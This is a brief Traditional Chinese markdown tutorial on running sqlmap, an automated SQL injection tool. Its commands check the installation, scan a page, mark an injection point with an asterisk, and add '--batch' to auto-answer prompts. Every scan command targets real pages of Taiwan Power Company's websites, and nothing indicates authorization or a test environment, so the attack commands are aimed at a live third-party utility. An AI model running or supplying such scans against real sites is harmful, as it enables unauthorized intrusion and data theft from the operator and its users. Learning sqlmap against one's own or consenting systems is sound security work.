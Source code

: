 # 如何使用 sqlmap

### 檢查 sqlmap 有沒有安裝
```sh
sqlmap --version
```

### 指定目標
```sh
sqlmap -u "https://www.taipower.com.tw/TC/page.aspx?mid=44"
```

### 手動指定參數位置，後面加*
```sh
sqlmap -u "https://iest.taipower.com.tw/Home/PublicationDetail/32*"
```

### 用預設答案回答所有 sqlmap 問題，後面加 --batch
```sh
sqlmap -u "https://www.taipower.com.tw/TC/page.aspx?mid=44" --batch
```
